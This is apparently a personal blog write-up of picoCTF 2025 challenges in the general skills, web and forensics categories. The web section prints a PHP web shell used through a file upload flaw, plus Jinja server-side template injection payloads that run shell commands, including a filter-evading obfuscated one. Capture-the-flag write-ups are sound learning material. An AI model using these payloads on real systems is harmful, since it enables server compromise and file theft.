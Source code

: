 # Pico CTF 2025

Over the week Mar 7, 2025 – Mar 17, 2025, [pico CTF](https://picoctf.org/) was held and I fully participated to my extent. During this time, I only solved a range of challenges.

I've grouped them according to challenge type, Let's dive in:

## General skills

### Fantasy CTF

![Screenshot at 2025-03-08 22-39-17](/pico2025/Screenshot%20at%202025-03-08%2022-39-17.png)

Honestly, all I had to do for this challenge was connect to it through netcat, and navigate through it (using common sense and selecting the most obvious or expected choices), which led me to the flag

![Screenshot at 2025-03-08 22-39-33](/pico2025/Screenshot%20at%202025-03-08%2022-39-33.png)

![Screenshot at 2025-03-08 22-39-49](/pico2025/Screenshot%20at%202025-03-08%2022-39-49.png)

### Rust fix me

The below series of 3 challenges makes on fix the syntax errors in the below rust code to get the flag.

I honestly don't know how to write rust, therefore chatgpt did the work for me

#### 1:

Bad code:

![Screenshot at 2025-03-26 10-52-24](/pico2025/Screenshot%20at%202025-03-26%2010-52-24.png)

Fixed code:

![Screenshot at 2025-03-08 23-02-32](/pico2025/Screenshot%20at%202025-03-08%2023-02-32.png)

Flag:

![Screenshot at 2025-03-08 23-02-10](/pico2025/Screenshot%20at%202025-03-08%2023-02-10.png)



#### 2:

Bad code:

![Screenshot at 2025-03-26 10-53-48](/pico2025/Screenshot%20at%202025-03-26%2010-53-48.png)

Fixed code:

![Screenshot at 2025-03-26 10-38-47](/pico2025/Screenshot%20at%202025-03-26%2010-38-47.png)

Flag

![Screenshot at 2025-03-08 23-05-24](/pico2025/Screenshot%20at%202025-03-08%2023-05-24.png)

#### 3: 

Bad code:

![Screenshot at 2025-03-26 10-54-19](/pico2025/Screenshot%20at%202025-03-26%2010-54-19.png)

Fixed code:

![Screenshot at 2025-03-26 10-41-22](/pico2025/Screenshot%20at%202025-03-26%2010-41-22.png)



Flag:

![Screenshot at 2025-03-08 23-07-18](/pico2025/Screenshot%20at%202025-03-08%2023-07-18.png)

## Web

### Cookie Monster recipe

It's just a simple webpage with username and password login.

![Screenshot at 2025-03-08 22-45-26](/pico2025/Screenshot%20at%202025-03-08%2022-45-26.png)

First check, the sourcecode and inputting default credentials such as 'admin:admin' and i got this as the response

![Screenshot at 2025-03-08 22-44-10](/pico2025/Screenshot%20at%202025-03-08%2022-44-10.png)

On checking the cookies, I realized that it was base64 encoded (trailing equals sign '=='), proceeded to decode it and got the flag.

![Screenshot at 2025-03-08 22-45-06](/pico2025/Screenshot%20at%202025-03-08%2022-45-06.png)

### Head dump

All I had to do was navigate to a path which contains the head dump info.



![Screenshot at 2025-03-08 22-45-55](/pico2025/Screenshot%20at%202025-03-08%2022-45-55.png)

Luckily the page had an `api-docs` endpoint, whose last endpoint revealed it all. On accessing the endpoint, it downloaded a heapsnapshot file.

![Screenshot at 2025-03-08 22-54-05](/pico2025/Screenshot%20at%202025-03-08%2022-54-05.png)

The heapsnapshot file was full of ASCII text, which I grepped through (The flag format for the CTF was picoCTF{flag}), therefore:



![Screenshot at 2025-03-08 22-53-55](/pico2025/Screenshot%20at%202025-03-08%2022-53-55.png)

### No Sanity 1

Based on the description provided, this seems like a Insecure File Upload vulnerability. 

Since the website uses php and the flag is probably `flag.txt` or just `flag` I created the below script

```
<?php
$output = shell_exec('sudo cat /root/flag');
$other_output = shell_exec('sudo cat /root/flag');
echo "<pre>$output</pre>";
echo "<pre>$other_output</pre>";
>
```

The result:

![Screenshot at 2025-03-10 11-48-13](/pico2025/Screenshot%20at%202025-03-10%2011-48-13.png)



### SSTI 1

To test for server side template injection, I normally do the jinja `{{7*7}}` or the ruby `<%= 7*7 %>` which will output `49` which proves the server executes its input.\

![Screenshot at 2025-03-10 11-48-48](/pico2025/Screenshot%20at%202025-03-10%2011-48-48.png)

![Screenshot at 2025-03-10 11-48-54](/pico2025/Screenshot%20at%202025-03-10%2011-48-54.png)

However in this challenge, some keywords are actively blocked but I found the below payload which works:

```
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}
```

This is an app running jinja version 2.0, which is why the payload is in python

![Screenshot at 2025-03-10 12-21-16](/pico2025/Screenshot%20at%202025-03-10%2012-21-16.png)

### SSTI 2

This is just SSTI 1 but with more keywords blocked, therefore I had to obfuscate the payload even more:

``` 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls; cat flag')|attr('read')()}}
```

![Screenshot at 2025-03-10 13-46-27](/pico2025/Screenshot%20at%202025-03-10%2013-46-27.png)



## Forensics

### Phantom Intruder

Inspect a `.pcap` file using Wireshark and get the hidden flag. The hint was `time is of the essence`

![Screenshot at 2025-03-10 10-42-02](/pico2025/Screenshot%20at%202025-03-10%2010-42-02.png)

![Screenshot at 2025-03-10 10-42-21](/pico2025/Screenshot%20at%202025-03-10%2010-42-21.png)

I sorted the logs according to time, got the each packet info from the series, and decoded it on cyberchef ; it was base64 encoded and got the flag.

![Screenshot at 2025-03-10 10-42-08](/pico2025/Screenshot%20at%202025-03-10%2010-42-08.png)



### RED

You have to download the image which is just the color red. There is nothing special on this.

![Screenshot at 2025-03-10 16-58-11](/pico2025/Screenshot%20at%202025-03-10%2016-58-11.png)

I ran multiple forensics programs on it, binwalk,file, hexdumps

I also ran strings on it to examine some of its metadata but only got a poem (big dead end)

I almost gave up but uploaded the image to an online image forensics tool, [aperisolve](https://aperisolve.com), which showed me some base64 encoded writing.

![Screenshot at 2025-03-10 16-57-43](/pico2025/Screenshot%20at%202025-03-10%2016-57-43.png)



I proceeded onto cyberchef where I got the flag!!

![Screenshot at 2025-03-10 16-57-35](/pico2025/Screenshot%20at%202025-03-10%2016-57-35.png)

### Hashcrack

All I ad to do here, according to the challenge description, is just crack weakly hashed passwords. Since they are weak hashes, they are obviously in a common database such as [Crackstation](https://crackstation.net)



![Screenshot at 2025-03-08 23-09-51](/pico2025/Screenshot%20at%202025-03-08%2023-09-51.png)

Once connected to the server using netcat, I just copied each hash to crackstation, waited for the password and continued to the flag:



![Screenshot at 2025-03-08 23-08-45](/pico2025/Screenshot%20at%202025-03-08%2023-08-45.png)







![Screenshot at 2025-03-08 23-08-55](/pico2025/Screenshot%20at%202025-03-08%2023-08-55.png)



![Screenshot at 2025-03-08 23-09-19](/pico2025/Screenshot%20at%202025-03-08%2023-09-19.png)



![Screenshot at 2025-03-08 23-09-29](/pico2025/Screenshot%20at%202025-03-08%2023-09-29.png)

![Screenshot at 2025-03-08 23-09-43](/pico2025/Screenshot%20at%202025-03-08%2023-09-43.png)

![Screenshot at 2025-03-08 23-09-51](/pico2025/Screenshot%20at%202025-03-08%2023-09-51.png)

Got the flag!!!

All these challenges still exist and are available on the pico website. Please go enjoy, THANK YOU!!!
